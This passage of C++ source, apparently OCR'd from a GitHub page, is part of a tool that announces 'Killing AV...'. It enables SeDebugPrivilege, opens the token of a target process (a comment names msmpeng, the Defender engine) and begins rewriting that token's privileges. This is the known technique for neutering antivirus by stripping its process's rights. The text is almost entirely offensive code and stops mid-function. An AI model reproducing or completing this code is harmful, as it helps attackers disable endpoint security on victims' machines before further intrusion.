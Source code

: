 ```c++
  if (GetLastError() == ERROR_NOT_ALL_ASSIGNED)

  {
      printf("The token does not have the specified privilege. \n");
      return FALSE;
  }

  return TRUE;
}


int main(int argc, char** argv)
{
  LUID sedebugnameValue;
  EnableDebugPrivilege();

  wchar_t procname[80];
  size_t convertedChars = 0;
  mbstowcs_s(&convertedChars, procname, 80, argv[1], _TRUNCATE);

  int pid = getpid(procname);


  // printf("PID %d\n", pid);
  printf("[*] Killing AV...\n");

  // hardcoding PID of msmpeng for now
  HANDLE phandle = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, FALSE, pid);

  if (phandle != INVALID_HANDLE_VALUE) {

      printf("[*] Opened Target Handle\n");
  }
  else {
      printf("[-] Failed to open Process Handle\n");
  }

  // printf("%p\n", phandle);

  HANDLE ptoken;

  BOOL token = OpenProcessToken(phandle, TOKEN_ALL_ACCESS, &ptoken);

  if (token) {
      printf("[*] Opened Target Token Handle\n");
  }
  else {
      printf("[-] Failed to open Token Handle\n");
  }

  LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &sedebugnameValue);


  TOKEN_PRIVILEGES tkp;

  tkp.PrivilegeCount = 1;
  tkp.Privileges[0].Luid = sedebugnameValue;
  tkp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!AdjustTokenPrivileges(ptoken, FALSE, &tkp, sizeof(tkp), NULL, NULL)) {

      printf("[-] Failed to Adjust Token's Privileges\n");
      return 0;
```